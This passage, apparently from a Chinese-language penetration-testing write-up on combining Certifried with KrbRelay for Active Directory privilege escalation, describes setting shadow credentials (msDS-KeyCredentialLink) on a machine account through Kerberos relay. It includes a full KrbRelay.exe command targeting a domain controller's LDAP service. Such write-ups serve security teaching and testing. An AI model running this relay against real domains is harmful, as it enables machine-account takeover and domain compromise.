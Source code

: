 然后执行 Kerberos 中继，为 `WIN10-CLIENT1$` 账户设置 `msDS-KeyCredentialLink`，这将为 `WIN10-CLIENT1$` 账户申请机器证书，如下图所示。

```console
C:\Users\Marcus\Desktop> KrbRelay.exe -spn ldap/dc01.pentest.com -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred WIN10-CLIENT1$ -port 10
```

![](/assets/posts/2022-05-19-certifried-combined-with-krbrelay-for-domain-privilege-escalation/image-20220519015044957.png)
